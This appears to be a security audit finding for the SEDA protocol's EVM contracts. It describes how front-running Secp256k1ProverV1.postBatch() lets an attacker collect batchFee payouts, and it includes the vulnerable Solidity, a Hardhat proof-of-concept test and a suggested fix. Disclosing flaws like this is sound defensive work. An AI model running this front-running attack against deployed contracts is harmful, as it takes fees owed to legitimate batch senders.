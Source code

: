 Restless Daisy Terrier

Medium

# [M-3] Frontrunning Secp256k1ProverV1.sol#postBatch() will allow to steal batchFee

#### Severity: Medium

Impact: High

Likelihood: Low

## Description

An attacker can to front-run a transaction that calling `contracts/provers/Secp256k1ProverV1.sol#postBatch()` and to create `BatchData` before an original user and to set a `sender` to the attacker's address. Subsequent calling the function `contracts/core/SedaCoreV1.sol#postResult()`  will send to attacker batchFee.

https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-evm-contracts/contracts/core/SedaCoreV1.sol#L181-L189

```solidity
function postResult(
        SedaDataTypes.Result calldata result,
        uint64 batchHeight,
        bytes32[] calldata proof
    ) public payable override(ResultHandlerBase, IResultHandler) whenNotPaused returns (bytes32) {

// ......

        if (requestDetails.batchFee > 0) {
            if (batchSender == address(0)) {
                // If no batch sender, send all batch fee to requestor
                refundAmount += requestDetails.batchFee;
            } else {
                // Send batch fee to batch sender
        //batchSender - attacker's address
                _transferFee(batchSender, requestDetails.batchFee);
                emit FeeDistributed(result.drId, batchSender, requestDetails.batchFee, ISedaCore.FeeType.BATCH);
            }
        }
```

## Impact

This issue allows to attacker to steal batchFee. But it is possible that gas costs would be higher then the stolen fee in reality. Also subsequent calling `postResult()` is not guaranteed. Therefore likelihood is low.



## Proof of Concepts

```solidity
      it('front run postBatch', async () => {
        const { core, prover, data } = await loadFixture(deployCoreFixture);
        const batchFee = ethers.parseEther('3.0');
        const [, batchSender, attacker] = await ethers.getSigners();

        await core.postRequest(data.requests[0], 0, 0, batchFee, { value: batchFee });

        const batch = { ...data.initialBatch, batchHeight: 1 };
        const signatures = [await data.wallets[0].signingKey.sign(deriveBatchId(batch)).serialized];
        await (prover.connect(attacker) as Secp256k1ProverV1).postBatch(batch, signatures, [
          data.validatorProofs[0],
        ]);

        await expect((prover.connect(batchSender) as Secp256k1ProverV1).postBatch(batch, signatures, [
          data.validatorProofs[0],
        ])).to.be.revertedWithCustomError(prover, 'InvalidBatchHeight');

        await expect(core.postResult(data.results[0], 1, data.proofs[0]))
          .to.emit(core, 'FeeDistributed')
          .withArgs(data.results[0].drId, attacker.address, batchFee, 2);
      });
```



## Recommended mitigation

To restrict calling of `Secp256k1ProverV1.sol#postBatch()` only for trusted users (validators).

